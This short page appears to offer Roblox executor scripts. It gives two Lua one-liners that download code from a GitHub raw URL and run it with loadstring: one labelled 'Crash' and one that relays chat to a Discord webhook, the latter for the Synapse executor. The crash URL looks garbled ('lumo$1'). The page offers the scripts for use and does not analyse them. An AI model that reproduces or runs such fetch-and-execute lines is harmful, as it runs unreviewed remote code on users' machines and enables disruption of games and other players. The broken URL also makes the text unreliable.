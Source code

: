 # Crash (usable)
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/luminostride/lumoengine/main/lumo$1"))()
```
# Discord Chatter (usable, make sure to change "url" to the webhook url, synapse only)

```lua
webhook = 'url'

loadstring(game:HttpGet("https://raw.githubusercontent.com/luminostride/lumoengine/main/webhooksource.lua"))()
```
